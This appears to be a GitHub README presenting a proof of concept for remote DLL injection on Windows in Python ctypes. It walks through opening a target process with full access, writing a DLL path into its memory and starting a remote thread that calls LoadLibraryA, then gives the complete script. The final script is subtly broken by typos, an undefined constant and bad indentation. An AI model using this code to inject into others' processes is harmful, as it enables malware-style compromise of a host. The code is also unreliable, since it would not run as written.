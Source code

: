 # Remote DLL Injection
## Overview
This POC demonstrates a technique known as remote DLL injection. The goal is to force a target process (for example, Notepad) to load an external DLL (Dynamic Link Library). The process involves three main steps:

  1. Allocating Memory in the Remote Process: Reserve a block of memory in the target process’s address space.
  2. Writing the DLL Path: Write the path (as a byte string) of the DLL into the allocated memory.
  3. Forcing the DLL to Load: Use the Windows API function LoadLibraryA—located via GetProcAddress on kernel32.dll—by creating a remote thread that calls it, passing the address of the DLL path in memory.

This technique is commonly used for injecting code into a process for either legitimate purposes (such as extending the functionality of a running application) or by malware for nefarious reasons.

## Detailed Code Walkthrough

1. Importing Modules and Defining API Functions
    1. ctypes and wintypes:
       The code imports the ctypes module and its wintypes submodule. This allows the script to interact directly with Windows API functions. The API calls are performed by calling functions in kernel32.dll, a core Windows DLL.

    2. Function Prototypes:
       The POC defines the argument types (argtypes) and return types (restype) for the following functions:
         1. OpenProcess: Opens an existing process given its process ID (PID) with specific access rights.
         2. VirtualAllocEx: Allocates a block of memory within the address space of the target process.
         3. WriteProcessMemory: Writes data (the DLL path) into the allocated memory in the remote process.
         4. GetModuleHandleA: Retrieves a handle to a loaded module (here, kernel32.dll).
         5. GetProcAddress: Finds the address of an exported function (in this case, LoadLibraryA) within a module.
         6. CreateRemoteThread: Creates a new thread in the remote process that will call the specified function—in our case, to load the DLL.

    3. Defining Structures:
       The code also defines the _SECURITY_ATTRIBUTES structure. Although this structure isn’t used in every detail, it is necessary when creating a remote thread to specify attributes like whether handles are inherited by child processes.

2. Preparing the Injection Payload
   1. DLL Path String:
   A byte string variable named dll holds the path to the compiled DLL file that you intend to inject. This must be a valid
   path that the target process can access.

   2. Process Identification:
   The variable pid is set to the target process’s ID (for example, Notepad’s PID). This value is used to open the process and
   manipulate its memory.

3. Opening the Target Process
   1. Using OpenProcess:
   The OpenProcess function is called with the PROCESS_ALL_ACCESS flag, which grants the maximum level of access required for
   injection.
   If OpenProcess fails (returns a NULL handle), an error is raised. Successful retrieval of a valid handle is critical for subsequent operations.
###
   ```bash
handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
if not handle:
    raise WinError()
print("Handle obtained ⇒", hex(handle))
   ```
4. Allocating Memory in the Remote Process
   1. VirtualAllocEx Call:
   VirtualAllocEx is used to reserve a block of memory in the target process’s address space.
   The size of the memory allocated is determined by the length of the DLL path string. The allocation is done using the
   flags MEM_COMMIT | MEM_RESERVE, and the memory is initially marked as PAGE_READWRITE so that it can be modified.
###
   ```bash
remote_memory = VirtualAllocEx(handle, False, len(dll) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
if not remote_memory:
    raise WinError()
print("Memory allocated ⇒", hex(remote_memory))
   ```
5. Writing the DLL Path into Remote Memory
   1. WriteProcessMemory Call:
   Once memory is allocated, the DLL path is written into the remote process using WriteProcessMemory.
   This step places the path (as a string) into the process’s memory space so that it can later be used by the LoadLibraryA
   function.
###
   ```bash
write = WriteProcessMemory(handle, remote_memory, dll, len(dll) + 1, None)
if not write:
    raise WinError()
print("Bytes written ⇒", dll)
   ```
6. Locating the LoadLibraryA Function
   1. Retrieving the Address of LoadLibraryA:
   The function GetModuleHandleA is used to get a handle for kernel32.dll—a critical module that contains the LoadLibraryA
   function.
   Then, GetProcAddress retrieves the address of LoadLibraryA within that module.
   This address will be the entry point for loading the DLL into the remote process.
###
   ```bash
load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")
print("LoadLibrary address ⇒", hex(load_lib))
   ```
7. Creating a Remote Thread to Load the DLL
   1. Executing the DLL Injection:
   With the address of LoadLibraryA and the memory location holding the DLL path, CreateRemoteThread is invoked.
   This function creates a new thread in the target process that begins execution at the LoadLibraryA function, with the
   argument being the address of the DLL path in remote memory.
   When the thread runs, LoadLibraryA loads the DLL, thus completing the injection.
###
   ```bash
rthread = CreateRemoteThread(handle, None, 0, load_lib, remote_memory, EXECUTE_IMMEDIATELY, None)
   ```

## Code ~ Remote DLL Injection
###
   ```bash
from ctypes import *
from ctypes import wintypes

kernel32 = windll.kernel32
LPCTSTR = c_char_p
SIZE_T = c_size_t

OpenProcess = kernel32.OpenProcess
OpenProcess.argtypes = (wintypes.DWORD, wintypes.BOOL, wintypes.DWORD)
OpenProcess.restype = wintypes.HANDLE

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (wintypes.HANDLE, wintypes.LPVOID, SIZE_T, wintypes.DWORD, wintypes.DWORD)
VirtualAllocEx.restype = wintypes.LPVOID

WriteProcessMemory = Kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (wintypes.HANDLE, wintypes.LPVOID, wintypes.LPCVOID, SIZE_T, POINTER(SIZE_T))
WriteProcessMemory.restype = wintypes.BOOL

GetModuleHandle = kernel32.GetModuleHandleA
GetModuleHandle.argtypes = (LPCTSTR, )
GetModuleHandle.restype = wintypes.HANDLE

GetProcAddress = kernel32.GetProcAddress
GetProcAddress.argtypes = (wintypes.HANDLE, LPCTSTR)
GetProcAddress.restypes = wintypes.LPVOID

class _SECURITY_ATTRIBUTES(Structure):
	_fields_ = [('nlengths', wintypes.DWORD),
							('lpSecurityDescriptor', wintypes.LPVOID),
							('bInheritHandle', wintypes.BOOL),]

SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = POINTER(_SECUIRTY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = wintypes.LPVOID

CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, wintypes.LPVOID, wintypes.DWORD, wintypes.LPDWORD)
CreateRemoteThread.restype = wintypes.HANDLE

MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0X0
PROCESS_ALL_ACCESS = (0X000F0000 | 0X00100000 | 0X00000FFF)

dll = b"<path to the compiled dll file>"

pid = 2160 #process id of a process such as Notepad

handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)

if not handle:
	raise WinError()
	
print("Handle obtained => {0:X}".format(handle))

remote_memory = VirtualAllocEx(handle, False, len(dll) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READ)

	if not remote_memory:
		raise WinError()

print("Memory allocated => ", hex(remote_memory))

write = WriteProcessMemory(handle, remote_memory, dll, len(dll) + 1, None)

if not write:
	raise WinError()

print("Bytes written => {}".format(dll))

load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")

print("LoadLibrary address => ", hex(load_lib))

rthread = CreateRemoteThread(handle, None, 0, load_lib, remote_memory, EXECUTE_IMMEDIATELY, None)
   ```
